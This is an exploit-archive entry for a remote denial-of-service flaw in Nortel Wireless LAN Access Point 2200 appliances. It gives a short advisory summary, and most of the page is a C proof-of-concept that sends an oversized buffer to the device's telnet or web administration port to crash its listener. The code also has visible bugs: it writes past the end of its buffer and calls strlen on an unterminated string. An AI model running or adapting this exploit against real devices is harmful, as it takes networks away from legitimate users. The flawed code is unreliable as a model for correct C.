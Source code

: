 INFO
----

    source: http://www.securityfocus.com/bid/9787/info

    Nortel Wireless LAN Access Point 2200 series appliances have been reported to be prone to a remote denial of service vulnerability. The issue is reported to present itself when a large network request is handled by one of the Wireless LAN Access Point default administration services. This will reportedly cause the Access Point Appliance Operating service to crash, effectively denying service to legitimate users.

    /* WLAN-DoS.c
     *
     * Nortel Networks Wireless LAN Access Point 2200 DoS + PoC
     * discovered by Alex Hernandez.
     *
     * Copyright (C) 2004  Alex Hernandez.
     *
     * A successful attack on a vulnerable server can cause the AP
     * (Access Point) listener to fail and crash. The port 23 (telnet)
     * functionality cannot be restored until the listener is manually restarted.
     *
     * LAN AP 2200 permits client-server communication across any network.
     * LAN enables by default the port 23 (telnet) and port (80) for administering.
     * Debugging features are enabled by default, if LAN AP encounters such a request,
     * it will crash and no longer field AP requests from authorized clients.
     *
     * Simple lame code by
     *
     * -Mark Ludwik :Germany
     *
     *
     */

    #include <stdio.h>
    #include <stdlib.h>
    #include <netdb.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <sys/types.h>

    int main(int argc, char *argv[]) {
     if(argc < 3) {
      printf("\nWLAN NortelNetworks AP DoS exploit by Mark Ludwik\n\n");
      printf("Usage: WlanDoS [AP/Host] [port]\n\n");
      exit(-1);
     }

     int sock;
     char explbuf[2024];
     struct sockaddr_in dest;
     struct hostent *he;

     if((he = gethostbyname(argv[1])) == NULL) {
      printf("Couldn't resolve %s!\n", argv[1]);
      exit(-1);
     }

     if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
      perror("socket()");
      exit(-1);
     }

     printf("\nWLAN NortelNetworks AP DoS exploit by Mark Ludwik\n\n");

     dest.sin_addr = *((struct in_addr *)he->h_addr);
     dest.sin_port = htons(atoi(argv[2]));
     dest.sin_family = AF_INET;

     printf("[+] Exploit buffer.\n");
     memset(explbuf, 'A', 2024);
     memcpy(explbuf+2024, "\n\n\n\n\n\n\n\n", 8);

     if(connect(sock, (struct sockaddr *)&dest, sizeof(struct sockaddr)) == -1) {
      perror("connect()");
      exit(-1);
     }

     printf("[+] Connected...\n");
     printf("[+] Sending DoS attack...!\n");

     send(sock, explbuf, strlen(explbuf), 0);
     sleep(2);
     close(sock);
     printf("\n[+] Crash was successful !\n");
     return(0);
    }